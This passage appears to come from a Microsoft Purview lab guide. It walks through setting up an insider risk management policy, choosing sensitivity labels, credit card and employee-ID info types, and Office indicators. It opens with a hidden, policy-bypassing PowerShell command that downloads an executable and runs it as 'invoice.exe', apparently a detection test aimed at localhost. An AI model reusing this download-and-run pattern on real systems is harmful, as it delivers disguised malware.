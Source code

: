 ```powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyleHidden $ErrorActionPreference= 'silentlycontinue';(New-ObjectSystem.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe','C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'```
![A screenshot of a computer Description automatically
generated](./media/image48.png)

6.  On the **Choose users and groups** page, select **Include all users and
    groups**. Select **Next** to continue.

![A screenshot of a computer Description automatically
generated](./media/image32.png)

7.  On the **Exclude users and groups** page, select **Next**.
8.  On the **Decide whether to prioritize** page, select **I want to specify
    priority content**. Select the check box for **Sensitivity
    labels** and **Sensitive info types**. Select **Next** to continue.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image49.png)

9.  On the **Sensitivity labels to prioritize** page, select **Add or edit
    sensitivity labels**. On the flyout pane, select **Internal/Employee
    data (HR)** and select **Add**. Then click **Next**.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image50.png)

10.  On the **Sensitive info types to prioritize** page, select **Add or edit
    sensitive info types**. On the flyout pane, search for and
    select **Credit Card Number**, **Contoso Employee ID** and **Contoso Employee
    EDM**. Select **Add**. Then click **Next**.

![A screenshot of a computer Description automatically
generated](./media/image51.png)

11. On **Decide whether to score only activity with priority content**,
    select **Get alerts for all activity**. Select **Next**.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image52.png)

12. On **Triggers for this policy** page, select the default and then
    select **Next**.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image53.png)

13. On **Indicators** page, select **Turn on indicators** from the
    prompt.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image54.png)

14. Select **Select all under Office indicators** and click **Save**.

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image55.png)

15. Select all the options and click on **Next**.

![A screenshot of a computer Description automatically
generated](./media/image56.png)

16. On **Detection options** page, select the default and then
    select **Next**.

```